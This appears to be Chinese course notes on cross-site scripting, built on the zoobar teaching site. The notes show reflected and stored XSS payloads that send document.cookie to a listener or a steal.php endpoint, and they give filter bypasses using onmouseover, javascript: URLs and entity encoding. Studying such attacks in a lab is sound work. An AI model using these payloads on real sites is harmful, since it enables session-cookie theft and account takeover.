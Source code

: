 ## 1、简介
* XSS攻击即为（Cross Site Scripting）, 跨站脚本。是为了区分CSS。XSS攻击是发生在目标用户的浏览器上的，当渲染DOM树的过程中执行了不该执行的JS代码时，就发生了XSS攻击。跨站脚本的重点不是“跨站”，而是“脚本“。

* 我们首先来看一下，页面执行不该执行的JS是什么意思。譬如我们来看这个代码：
```
Hello, your question is:
<?php

echo $_GET['q'];
?>
```
* 这个网页，可以想象成自动问答网站。你输入一个问题，然后网站给一个答案。这个问题是通过$_GET['q']获取的。这个网站的目的是接收用户输入的譬如“how old are you?”，"How is the weather today？"之类的问题。它接收用户的输入，把用户的输入显示在页面上，然后给一个答案。

* 好，我们可以设计这么两个URL
```
localhost/xss.php?q=<a href="http://www.baidu.com"></a>

localhost/xss.php?q=<script>alert(1);</script>

http://localhost/xss.php?q=%3Cscript%3Ealert%28document.cookie%29;%3C/script%3E
```
* 因此，所谓执行不该执行的JS代码的意思就是：用户通过各种方法向网站中注入了一些JS代码，而网站没有对用户的JS代码做任何检查，就直接把它有显示在了网站的页面上。因此，导致了用户注入的JS代码的运行。

## 2、Cookie窃取

* JS可以通过document.cookie访问当前网站的cookie。当然，这样的代码只能把用户的cookie弹出来，没什么用。我们首先再次看看cookie的作用，然后考虑下，怎么样利用XSS漏洞来偷cookie。

* 在zoobar这个网站中，相应的数据库表中有Token和Salt这两项。我们通过查看源代码，来理解一下这两项有什么作用。在addRegistration代码中，有这么两行：

```
$salt = substr(md5(rand()), 0, 4);
$hashedpassword = md5($password.$salt);
```
* salt就是对随机数进行md5哈希，然后取前四位。注册的时候，用户提供了用户名和密码，但是这个密码不是明文直接存储在数据库中的，而是结合盐值做了哈希才保存的。请大家思考一下，盐值在这里有什么用？为什么不直接对密码做哈希？
> 即使用户的密码很短，只要我在他的短密码后面加上一段很长的字符，再计算 md5 ，那反推出原始密码就变得非常困难了

* 接下来看看token。在setCookie函数中，设置了token。
```
$token = md5($values["Password"].mt_rand());
```
* 每次登录的时候，会调用_setCookie函数，而每次登录token都会更新。token在生成cookie的使用：
```
$arr = array($this->username, $token);
$cookieData = base64_encode(serialize($arr));
```
* 所以就是用户每次登录，生成的cookie值都会不同,因为有随机函数

* 另外，设置了cookie有什么用呢？在_checkRemembered函数中有这样的代码：
```
$arr = unserialize(base64_decode($cookie));
list($username, $token) = $arr;
if(!$username or !$token) {
    return;
}
$sql = "SELECT * FROM Person WHERE (Username = '$username') AND (Token = '$token')";
```
* 当服务器接收到浏览器交过来的cookie的时候，先分出来username和token，然后查数据库。如果查到了，就记录下来这是哪个用户。

* 之前CSRF攻击，可以看到，有了浏览器帮我们提交cookie，可以很容易完成攻击；在CSRF攻击被防御的情况下，攻击者可以直接针对cookie进行攻击，有了cookie，直接进行登录。

* 刚才我们已经看到了使用alert(document.cookie)可以弹出来用户的cookie。但是只弹出没有什么用处，需要做的是将用户的cookie拿走。只要JS能访问cookie，并且网站中存在着XSS漏洞，那么就可以将cookie发送给攻击者。

* 那现在思路就很明确了，只要能够构造出攻击代码，把document.cookie发给监听端口就行。要发送，首先想到的可能就是`<a>`。譬如我们构造出这样的代码：
```
localhost/xss.php?q=<script>document.write("<a href='http://localhost:2002?a=");document.write("hey");document.write
("'>hello</a>");</script>hi

localhost/xss.php?q=<script>document.write("<a href='http://localhost:2002?a=");document.write("document.cookie");document.write
("'>hello</a>");</script>hi
```
* 使用这个代码，我们可以在echoserv处收到cookie


* 综上，首先，需要找到一个XSS漏洞；在这个例子中，xss.php就是漏洞。因为它接收了用户的输入，然后直接就把用户的输入写在了页面上，而用户的输入中可能有`<script>`代码，用户的代码就直接获得了执行。
>偷cookie的另一个比较经典的例子是使用`<img>`标签。因为`<img>`标签可以直接自动地去向目标URL发出请求，相比`<a>`，还不需要用户点击链接，攻击起来更加方便

* 以上的XSS攻击直接写在URL中，也叫作反射型XSS。

## 3、实践实例
* zoobar这个网站有没有什么地方可以发起XSS攻击？

* 用户可以操作的地方，主要的就是index.php页面中的profile。在这个页面中，可以输入很多内容。当其他用户查看用户的profile时，从数据库取出来用户的输入，然后显示在页面上。那我们输入攻击代码可以吗？

* 首先要说明，这个网站最近的防御还是有的。在users.php中，已经过滤了很多不少的危险标签。为了演示说明，我们首先把这些防御给关掉。

* 在关掉防御的条件下，把刚才构造出来的攻击代码直接拷贝到profile中，就可以形成一样的攻击效果。

譬如在Profile页面写上这样的代码，也可以把cookie发送出去；当然，steal.php要另外准备好，接收这个cookie。
```
<a id="id">click me</a>
<script>
var aLink = document.getElementById("id");
aLink.href="http://www.zoobar.com/steal.php?cookie="+document.cookie;
</script>
```
* 然后，我们加上一点防御。不能直接使用`<script>`标签。这个也是很容易做到的，PHP中有一个函数strip_tag，可以把一些标签给过滤了。

* 但是这点防御远远不够。在讲JS的时候我们讲过多种可以触发JS执行的方法。譬如：`onmouseover`等动作属性。试一下下面的代码。基本来说，判断是否有XSS漏洞，就看能不能弹出来框就行了。所以，这些属性也得过滤掉。
```
<a href="whatever" onmouseover="alert(1)">hello<a>
```
* 然后javascript：也得过滤掉
```
<a href="javascript:alert(1)">hello</a>
```
* 但是，即使这样，也可以通过编码的方式进行绕过。
```
<a href=&#x6A;avascript:alert(1)>hello</a>
```
* **然后，只要发现了XSS漏洞，就可以发动攻击了。**
